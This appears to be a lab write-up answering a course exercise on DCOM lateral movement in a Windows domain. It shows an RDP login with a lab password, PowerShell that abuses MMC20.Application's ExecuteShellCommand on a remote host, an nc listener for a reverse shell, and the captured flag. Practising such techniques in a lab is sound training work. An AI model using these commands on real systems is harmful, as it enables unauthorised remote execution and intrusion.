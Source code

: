 Topics: DCOM
# Question 2
Start VM Group 2 and connect as the jen user on client74 then try to abuse DCOM to move laterally to web04 to get the flag located on the administrator's desktop.
# Answer
OS{9064c9993280925c5b5671f48e10c6c6}

xfreerdp /cert-ignore /u:jen /p:Nexus123! /d:corp.com /v:192.168.175.74

```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.175.72"))
```
```
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
```

nc -lvnp 443

```
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"pwsh-revsh-encode.py code
","7")
```

PS C:\Users\Administrator\Desktop> type flag.txt
OS{9064c9993280925c5b5671f48e10c6c6}
